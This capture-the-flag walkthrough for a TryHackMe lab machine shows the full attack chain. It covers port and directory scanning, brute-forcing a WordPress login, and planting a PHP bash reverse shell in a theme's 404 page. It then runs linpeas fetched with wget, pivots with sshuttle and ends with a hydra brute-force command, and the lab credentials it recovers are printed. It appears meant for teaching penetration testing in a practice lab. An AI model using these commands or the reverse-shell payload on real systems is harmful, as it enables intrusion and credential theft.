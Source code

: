# Internal

**Room Link:** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

```
gobuster dir -u http://10.10.46.54 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Wordpress is running under both /blog and /wordpress. /blog has a login page

```
wpscan --url http://10.10.46.54
wpscan --url http://10.10.46.54/blog --passwords /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

#### Credentials found

<pre><code><strong>Username: admin 
</strong><strong>Password: my2boys
</strong></code></pre>

Trying to login the page redirects to internal.htm so I add that to the host file.

```
vi /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We are able to successfully get into wordpress with the credentials

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Reverse Shell Failed Attempt

revshell.php code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'");
?>
```

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Unable to upload the plugin due to write issues

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

TWENTY SEVENTEEN theme had a writable pages so I modified the 404 page with a reverse shell and then navigated to a page that does not exist.

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Just added the revshell.php code mentioned earlier.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```

**Browser**

A page that doesn't exist to trigger the reverse shell.

```
http://www.internal.thm/blog/index.php/2020/08/03/hello-worlgd/
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Get full TTY shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### LinPeas

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://10.10.120.18:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

Linpeas was able to find two sets of credentials. phpmyadmin credentials worked.

```
phpmyadmin
Username: phpmyadmin                                                                                                                
Password: B2Ud4fEOZmVq

note 
Username: aubreanna
Password: bubb13guM!@#123
```

The note for Bill

```
cat /opt/wp-save.txt 
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Able to ssh in with the credentials. There is a file that says that Jenkins is running and we can confirm that is is running with netstat as well.

```
ssh aubreanna@10.10.46.54
cat jenkins.txt
netstat -tuan
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### Pivot

From Kali I am now able to reach the Jenkins server

```
apt install sshuttle
sshuttle -r aubreanna@10.10.46.54 127.0.0.1/24
```

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Bruteforce

After checking for some time I couldn't find any files with credentials that worked to login so I resorted to using hydra.

```
hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
```
